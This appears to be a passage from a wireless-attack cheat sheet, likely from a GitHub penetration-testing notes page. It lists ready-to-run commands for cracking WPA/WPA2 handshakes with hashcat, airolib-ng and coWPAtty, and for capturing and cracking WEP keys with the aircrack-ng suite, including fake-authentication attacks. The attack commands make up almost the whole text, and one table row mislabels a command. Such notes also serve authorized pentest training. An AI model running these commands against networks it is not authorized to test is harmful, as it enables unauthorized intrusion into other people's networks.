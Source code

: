| Crunch Options | Description |
|--|--|
|@ | represents lowercase characters or characters from a defined set
|, |represents uppercase characters
|% |represent numbers
|^ |represents symbols

`crunch 11 11 -t password%%%` = password000  

### hashcat 
Convert capture file to HCCAPx file for cracking.  
`/usr/lib/hashcat-utils/cap2hccapx.bin wifu-01.cap output.hccapx` 

`hashcat -m 2500 output.hccapx wordlist.txt`  

### Airolib-ng 
Used to manage ESSID and password lists, and compute their Pairwise Master Keys (PMK).  

These can be used to crack WPA and WPA 2 PSK passphrases.  

1. Create a file containing ESSID of target AP: `echo AP-Name > essid.txt` 
2. create or import airolib-ng database: `airolib-ng AP-Name.sqlite --import essid essid.txt`  
3. Import wordlist: `airolib-ng AP-Name.sqlite --import passwd /usr/share/john/password.lst`
4. Process PMKs: `airolib-ng AP-Name.sqlite --batch` && `airolib-ng AP-Name.sqlite --stats`
5. Crack the precomputated PMKs: `aircrack-ng -r AP-Name.sqlite capfile.cap`

### coWPAtty 
rainbow tables

`genpmk -f /usr/share/john/password.lst -d output-file.txt -s AP-Name`

## WEP Attacks  
### IVS Cracking 
| Command  | Description |
|--|--|
| `airmon-ng start wlan0` | Fake Authentication with Shared Key Authentication
| `sudo airodump-ng wlan0mon --encrypt WEP` | check for WEP networks
| `sudo airodump-ng wlan0mon --ivs -c 3 --bsside <AP-MAC> -w ivs-capture-file ` | capture IVS from specific AP  
| `sudo aircrack-ng ./ivs-capture-file.cap ` | crack key  
If not getting a lot of Data packets, nothing connected or communicating to AP. Connect with Fake Authentication Attack.  

### Fake authentication 
Used when no clients connected to AP and you need an associated MAC address for attacking. 
| Command  | Description |
|--|--|
| `aireplay-ng -1 0 -e AP-NAME -a <AP-MAC> -h <Our Cards MAC> -y sharedkeyxor wlan0` | Fake Authentication with Shared Key Authentication
| `aireplay-ng -1 0 -e AP-NAME -a <AP-MAC> -h <Our Cards MAC>  wlan0` | Fake Authentication against open networks
